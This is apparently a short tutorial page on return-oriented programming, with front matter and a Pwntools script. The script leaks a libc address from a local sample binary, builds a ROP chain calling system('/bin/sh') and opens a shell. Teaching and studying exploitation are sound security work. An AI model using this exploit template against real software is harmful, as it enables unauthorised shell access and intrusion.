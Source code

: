 ```yaml
---
title: Binary Exploitation with ROP
description: ROP (Return-Oriented Programming) is a technique used to bypass security mechanisms such as data execution prevention (DEP) or address space layout randomization (ASLR). It allows us to exploit the arbitrary code by chaining together small, existing code snippets (called “gagdets”) within a program, rather than injecting new malicious code.
tags:
    - Reverse Engineering
refs:
date: 2023-02-12
draft: false
---
```



## Exploitation

**Pwntools** can build ROP chains so we'll use it for exploitation.

```python
from pwn import *

elf = context.binary = ELF('./example')
libc = elf.libc
p = process()

# get the base address
p.recvuntil('Enter name: ')
base_addr = int(p.recvline(), 16)

# set our libc address according to the base address
libc.address = base_addr - libc.sym['system']
log.success('LIBC base: {}'.format(hex(libc.address)))

# get location of binsh from libc
binsh = next(libc.search(b'/bin/sh'))

# build the rop chain
rop = ROP(libc)
rop.raw('A' * 32)
rop.system(binsh)

# send our rop chain
p.sendline(rop.chain())

# Get the shell
p.interactive()
```